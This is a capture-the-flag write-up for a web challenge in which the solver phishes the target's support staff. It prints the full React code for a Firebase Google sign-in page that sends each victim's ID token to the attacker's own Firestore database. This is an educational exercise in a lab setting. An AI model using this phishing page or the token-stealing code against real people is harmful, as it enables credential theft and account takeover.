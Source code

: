 # TaiYang IT Solution Part 2: Electric Boogaloo

**Category**: Web

895 points | 4 solves

----

## Challenge Description

After the initial vulnerability disclosure, TaiYang IT Solution employed a new cybersecurity specialist to secure their systems which used Google Sign-In.

They were complaining about how their support staff would just login with the company Google Account to any website they received in their Inbox! How terrible!

Challenge is here (part 2!): [link] (see Admin Panel Modern)

This challenge may require you to setup a Google Firebase Project.

This challenge may require you to send emails (you could use Gmail, or Outlook, anything really).

^ source is slightly modified from original


## Attached files
* link to webpage
* 7z file containing source code of page

----

## Solution

Part 2 of this challenge requires us to gain access to v2 of the portal.

[screenshot]

This time, they actually verify that the token is legitimate, and denies access if it is not:

[screenshot]

This means that, unlike in [Part 1](../TaiYang%20IT%20Solution%20Part%201), we cannot simply use a doctored token, but instead have to somehow obtain the legitimate token from TaiYang IT Solution.

Luckily for us, we've heard that their support staff logs in with their company Google Account to any website they receive in their inbox. Combine this information with the other hints in the challenge description, and we now know that:

1. We have to email TaiYang IT Solution with a website containing a Google sign-in that will somehow allow us to get their token.
2. This can be achieved by creating a Firebase project of our own.

With that, we can create a project in Firebase and enable Google authentication:

[screenshot]

Additionally, we can use the Firestore Database to store any data, such as the token.

Now, we can set up the web page to send to TaiYang. I opted for a simple React app, but I'd guess that it could work with simple HTML/CSS/JS as well.

After looking through the Firebase documentation, I put together a patchwork of code snippets (see [footnote](#footnote)) that lets the user sign in, and then stores the JWT token in the database.

Then, we hosted the webpage online (Firebase has hosting, but we were strapped for time so my teammate helped host it on his server) and emailed the link to TaiYang IT Solution's email address.

[screenshot]

After receiving confirmation that they had, in fact, clicked on our very nice and incredibly benign link, we can now use the token we stored, and access the flag.

[screenshots]

### Flag:
```
IRS{a77rac71ng_y0uR_aUD13nc3}
```

[< Part 1](../TaiYang%20IT%20Solution%20Part%201)

----

### Footnote
Here are the relevant documentation pages containing the snippets we used:
* [Google sign-in](https://firebase.google.com/docs/auth/web/google-signin#handle_the_sign-in_flow_with_the_firebase_sdk)
* [Retrieving ID token after sign in](https://firebase.google.com/docs/auth/admin/verify-id-tokens#retrieve_id_tokens_on_clients)
* [Adding data to Firestore](https://firebase.google.com/docs/firestore/quickstart#add_data)

Here's the code we used for our page (cleaned up because the original was a mess):

**App.js:**
```jsx
import './App.css';
import React from 'react';

import { getAuth, signInWithPopup, GoogleAuthProvider } from "firebase/auth";
import { initializeApp } from "firebase/app";
import { getFirestore, collection, addDoc } from "firebase/firestore"; 

const firebaseConfig = {
  // {firebase config stuff such as the API key}
};

const app = initializeApp(firebaseConfig);
const db = getFirestore();
const provider = new GoogleAuthProvider();

function signIn() {
  const auth = getAuth();
  signInWithPopup(auth, provider)
    .then((result) => {
      auth.currentUser.getIdToken(/* forceRefresh */ true).then(async function(idToken) {
        // uploads jwt to firestore db
        try {
          const docRef = await addDoc(collection(db, "users"), {
            name: user.displayName,
            token: idToken
          });
          console.log("Document written with ID: ", docRef.id);
        } catch (e) {
          console.error("Error adding document: ", e);
        }
        }).catch(function(error) {
          // {this was very rushed we didn't have time to handle errors}
        });

    }).catch((error) => {
      const errorMessage = error.message;
      console.log(errorMessage);
    });
}

export class App extends React.Component {
  render() {
    return (
      <a onClick={ () => signIn() }>
          click me pls!
      </a>
    );
  }
}

export default App;
```
